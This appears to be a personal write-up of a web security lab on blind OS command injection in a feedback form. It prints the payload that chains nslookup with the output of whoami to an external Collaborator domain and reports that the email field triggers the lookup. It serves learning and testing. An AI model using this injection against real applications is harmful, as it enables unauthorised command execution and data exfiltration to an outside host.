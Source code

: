 *This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.
To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. *

Submitted a feedback and sent the request from *Proxy* to *Repeater*. 

I decided to inject a payload to perform a DNS lookup and output the contents of `whoami` to the *Collaborator* server. My payload is as such:
`|| nslookup `whoami.`67bxhm1wtd0hs2mjsw8qghrfp6vxjn7c.oastify.com &`
I URL encoded the payload and injected it at each client input, checking the polls in *Collaborator*:
![[Screenshot 2024-05-09 at 1.26.38 PM.png]]
Injecting the payload at the `email` input triggered a DNS lookup as seen below, solving the lab!
![[Screenshot 2024-05-09 at 1.28.03 PM.png]]
